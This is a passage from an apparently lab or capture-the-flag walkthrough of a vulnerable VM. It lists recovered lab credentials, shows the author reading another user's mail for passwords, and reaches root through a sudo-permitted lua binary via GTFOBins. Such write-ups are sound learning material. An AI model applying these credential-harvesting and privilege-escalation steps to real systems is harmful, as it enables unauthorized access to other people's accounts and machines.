

`adair:mexico`

__NOTE__: Don't try to use credentials I found it's highly likely that your VM will have a different password. So you'll have to run responder and wireshark to find them.


Using that credentials I `su` to `adair`'s account.



Then I decided to read the `adair`'s email in the `/var/mail` directory. It had lot of junk information but it also had password for `ulla`.



`ulla:9r4lw0r82cu7`

And if we go into `adair's` home directory we'll see the `user.txt`



Without thinking much I decided to `su` to `ulla` and see if I find anything there.



I then ran `sudo -l` to see if there is any privilege there. And user `ulla` had the right to run `lua` as root.

I searched lua on `gtfobins` and found the sudo one , [gtfobins/lua](https://gtfobins.github.io/gtfobins/lua/#sudo).

Just run this to get root and then run the `proof.sh` file in `/root`



***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
